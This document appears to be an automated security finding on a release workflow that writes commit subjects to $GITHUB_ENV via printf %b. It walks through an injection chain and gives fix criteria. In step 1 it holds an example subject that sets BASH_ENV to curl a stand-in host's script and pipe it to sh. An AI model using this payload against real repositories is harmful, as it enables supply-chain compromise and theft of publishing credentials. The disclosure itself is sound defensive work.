

# Commit subjects inject variables into $GITHUB_ENV via printf %b in extension release workflow

| Field | Value |
|---|---|
| ID | `find_01WUnPK6TNnWKjAWSzPspgVZ` |
| Severity | **Critical** |
| Status | open |
| CWE | CWE-93 — CRLF injection |
| Created | 2026-10-22T13:59:13.023318Z |
| Claude Security | https://claude.ai/security/findings/find_01WUnPK6TNnWKjAWSzPspgVZ |

## Description

A contributor who gets a pull request squash-merged can run commands in the extension release job. From there they can reach its write-enabled `GITHUB_TOKEN`, the npm tokens and, in publish runs, the marketplace and AWS credentials. The release workflow writes commit subjects to `$GITHUB_ENV` with `printf "%b"` under the fixed delimiter `EOF`. A crafted subject can therefore add a `BASH_ENV` variable.

1. **contributor** opens a PR whose title contains escape text, and a maintainer squash-merges it. The PR title becomes the commit subject on `main`, and no workflow validates PR titles. A subject such as `Fix view\nEOF\nBASH_ENV=$(curl -s https://x/p|sh)\nX<<EOF\n` carries a literal backslash-n, not a real line break. ([`.github/scripts/release_body_checkmarx.md:4`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/scripts/release_body_checkmarx.md#L4))
2. **the script `generateChangelog.js`** reads every commit subject since the last stable tag with `git log`. Subjects are taken verbatim. Only `|||` splitting and a few release-automation exclusion patterns are applied, and none of them removes backslashes or delimiter words. ([`.github/scripts/generateChangelog.js:118-140`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/scripts/generateChangelog.js#L118-L140))
3. **`formatCommits` in `generateChangelog.js`** prints each subject into the changelog line `* ${c.message} by @...`. No escaping or neutralisation is applied to the message. ([`.github/scripts/generateChangelog.js:187-194`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/scripts/generateChangelog.js#L187-L194))
4. **the workflow `release.yml`** captures the changelog and stores it in `$GITHUB_ENV` with `echo "$RELEASE_BODY"`. Bash's builtin `echo` does not expand escapes, so the literal `\n` text passes through unchanged. The same happens for the project-ignite body. ([`.github/workflows/release.yml:224-237`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/workflows/release.yml#L224-L237))
5. **the `Build release body` step** joins the stored bodies into `BODY` and writes it with `printf "%b" "$BODY"` between `RELEASE_BODY<<EOF` and `EOF`. `%b` turns `\n` into real line feeds. The subject's own `EOF` line closes the heredoc early, adds a `BASH_ENV=...` record, and opens a new heredoc that swallows the rest of the body. ([`.github/workflows/release.yml:294-297`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/workflows/release.yml#L294-L297))
6. **later bash `run:` steps** apply command substitution to `BASH_ENV` and run the attacker's commands first. The workflow sets no `shell:`, so every `run:` step uses `bash -e {0}`. The payload runs in `npm run ci:all`, `npm run build:all`, the `vsce package` steps and the publish steps. ([`.github/workflows/release.yml:304-306`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/workflows/release.yml#L304-L306))
7. **attacker's commands** read the job's credentials and tamper with the release. The job holds a `GITHUB_TOKEN` with `contents: write`, `pull-requests: write` and `id-token: write`. Npm tokens are in `~/.npmrc`, and publish runs also expose AWS credentials, `MARKET_TOKEN` and `OPEN_VSX_TOKEN`. ([`.github/workflows/release.yml:90-101`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/workflows/release.yml#L90-L101))

## Assessment

Any GitHub user can open a PR on the public repository that touches `packages/checkmarx/` or `packages/project-ignite/` with a harmless diff. The PR title can be edited even after approval. A maintainer must squash-merge it, so that the title becomes the commit subject. The attack fires on the next routine `Extension Release` run, with no further action from the attacker. The report notes that a `NODE_OPTIONS` payload does not work because the runner refuses it from `$GITHUB_ENV`, but `BASH_ENV` is not refused.

Impact: The attacker runs arbitrary commands in the release job before the build and package steps. They can read the job's tokens and credentials, create and merge PRs, push tags, replace the `.vsix` assets of the GitHub release and alter build output before it is packaged. Availability impact is limited to deleting or overwriting releases and tags.

Subsequent-system impact: The payload runs before `build:all` and `vsce package`, and inside `vsce publish` and `ovsx publish`. It can backdoor extensions published under the `checkmarx` publisher, or steal the Marketplace and Open VSX tokens. A malicious version would auto-update onto developer machines running the Checkmarx extensions. That gives code execution there and access to the Checkmarx One credentials stored on them.

## Recommendation

(1) `release.yml` lines 295-297 write text derived from contributors to `$GITHUB_ENV` with `printf "%b"`, which expands `\n` and other escapes into line breaks. The heredoc uses the fixed delimiter `EOF`, so the text can end it and define any variable. The `echo` heredocs at lines 235-237 and 260-262 share the same guessable delimiter.

Fix criteria: No value derived from commit subjects, PR metadata or author names can produce a line that the `$GITHUB_ENV` parser treats as a delimiter or a new assignment. A commit subject containing `\nEOF\nFOO=bar\nX<<EOF\n` leaves no `FOO` or `BASH_ENV` variable in later steps. The same subject appears literally in the release body. Acceptable approaches are a literal write that does not expand escapes under a per-run random delimiter, or passing the body to the release action as a file instead of an environment variable.

(2) `generateChangelog.js` at lines 124-127 and 192-194 forwards commit subjects, and on fallback author names, verbatim into output that shell steps consume.

Fix criteria: The generator strips or escapes backslashes and control characters in subjects. No emitted line can equal a heredoc delimiter. A crafted subject renders literally in the release notes and cannot change how downstream steps parse it.

(3) The job grants `contents: write`, `pull-requests: write` and `id-token: write` to every step and sets `GITHUB_TOKEN` at job level (`release.yml` lines 93-101). Publishing credentials share a job with build steps that process contributor-derived data. Code execution in any one step therefore reaches every credential.

Fix criteria: Tokens and publishing secrets are scoped to the steps, or to a separate job, that need them, with minimal permissions. Steps that handle changelog text or run `npm ci` or the build have no write token or publishing credential in their environment. This is confirmed by inspecting each step's environment.

## Evidence

**https://github.com/cx-benchmark/ast-vscode-extension**

- [`.github/workflows/release.yml:294-297`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/workflows/release.yml#L294-L297)
- [`.github/workflows/release.yml:285-292`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/workflows/release.yml#L285-L292)
- [`.github/workflows/release.yml:224-237`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/workflows/release.yml#L224-L237)
- [`.github/scripts/generateChangelog.js:118-140`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/scripts/generateChangelog.js#L118-L140)
- [`.github/scripts/generateChangelog.js:187-194`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/scripts/generateChangelog.js#L187-L194)
- [`.github/scripts/release_body_checkmarx.md:4`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/scripts/release_body_checkmarx.md#L4)
- [`.github/workflows/release.yml:304-306`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/workflows/release.yml#L304-L306)
- [`.github/workflows/release.yml:90-101`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/workflows/release.yml#L90-L101)
- [`.github/workflows/release.yml:140-148`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/workflows/release.yml#L140-L148)
- [`.github/workflows/release.yml:488-518`](https://github.com/cx-benchmark/ast-vscode-extension/blob/55c034d5a357f2ab653f140c773e5098456060c2/.github/workflows/release.yml#L488-L518)

